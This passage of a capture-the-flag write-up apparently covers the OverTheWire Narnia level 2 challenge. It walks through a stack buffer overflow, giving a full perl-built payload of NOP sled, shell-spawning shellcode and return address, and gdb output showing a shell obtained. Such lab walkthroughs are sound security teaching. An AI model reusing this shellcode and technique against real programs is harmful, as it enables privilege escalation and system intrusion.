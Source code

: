 We can see there is a lot of repition happening here:

``` text
0xffffd744:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd754:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd764:	0x90909090	0x90909090	0x90909090	0x90909090
```

Let's choose `0xffffd754` for our return address.

So our new command should be:

``` text
./narnia2 $( perl -e 'print <snip> "\x54\xd7\xff\xff";' )
```

Let's run it.


`$( perl -e 'print "\x90"x74 . "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" . "\x54\xd7\xff\xff";' )`

``` text
narnia2@gibson:/narnia$ gdb ./narnia2
<snip>
(gdb) run $( perl -e 'print "\x90"x74 . "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" . "\x54\xd7\xff\xff";' )
Starting program: /narnia/narnia2 $( perl -e 'print "\x90"x74 . "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" . "\x54\xd7\xff\xff";' )
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
process 326380 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$ whoami
[Detaching after vfork from child process 326459]
narnia2
```

BOOM we got a shell. However, because we are using `GDB` we are running the script as `narnia2`, which means we must
run the script without `GDB`. 

Additionally, `GDB` creates an **OFFSET** in the stack, which means we must use a different return address. Let's
check how much this offset is by printing the `$ESP` normally and then with `GDB`.

``` text
narnia2@gibson:~$ mktemp -d
/tmp/tmp.mblQrRlBU6
narnia2@gibson:~$ cd /tmp/tmp.mblQrRlBU6
narnia2@gibson:/tmp/tmp.mblQrRlBU6$ vim crack.c
narnia2@gibson:/tmp/tmp.mblQrRlBU6$ gcc crack.c -o crack
narnia2@gibson:/tmp/tmp.mblQrRlBU6$ ./crack 
0xffffe480 <= $ESP
narnia2@gibson:/tmp/tmp.mblQrRlBU6$ gdb ./crack
<snip>
(gdb) run
<snip>
0xffffe440 <= $ESP
(gdb) exit
```
